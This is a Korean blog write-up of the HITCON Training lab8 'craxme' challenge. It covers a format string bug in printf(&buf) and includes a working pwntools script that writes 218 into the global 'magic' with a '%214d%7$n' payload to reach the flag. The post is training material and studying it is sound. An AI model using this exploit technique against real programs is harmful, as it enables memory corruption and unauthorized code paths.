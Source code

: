 ```yaml
---
layout: post
title: "[HITCON Training] lab8"
comments : true
category : War Game
---
```


# 문제
***

craxme 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
craxme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2b264eb7dfa7fe74e2dce2cf802a6b5300737b65, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...
  ...
  read(0, &buf, 0x100u);
  printf(&buf);
  if ( magic == 218 )
  {
    system("cat /home/craxme/flag");
  }
  else if ( magic == 0xFACEB00C )
  {
    system("cat /home/craxme/craxflag");
  }
  else
  {
    puts("You need be a phd");
  }
  return 0;
}
```

magic에 저장된 값이 218이면 flag 값을 읽어온다.
그리고 if문에 들어가기 전에 호출하는 printf에 format string bug가 존재한다.

## exploit 방법
printf(&buf)를 하는 시점에 esp 값과 buf의 주소는 다음과 같다. <br/>
esp 값   -> 0xffffcef0
buf 주소 -> 0xffffcf0c 

따라서 buf에서 magic의 주소값을 넣어주면 fsb를 통해서 magic에 원하는 값을 쓸 수 있다.  

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab8/craxme"

p=process(file_path)

p.recvuntil("magic :")

magic=0x0804a038

pay=p32(magic)
pay+="%214d"
pay+="%7$n"

p.send(pay)

time.sleep(0.1)

print p.recv(1000)
```

# 알게 된 것
***
1. "%숫자$n" 을 통해서 n+1번째 인자에 접근할 수 있다.
2. 위의 문제에서 send를 하고 바로 recv를 하면 ```system("cat /home/craxme/flag");```이 실행되기 전에 출력된 값만 recv하고 파이썬 프로세스가 종료된다. 따라서 send와 recv 사이에 time.sleep 함수를 넣어주어야 한다.

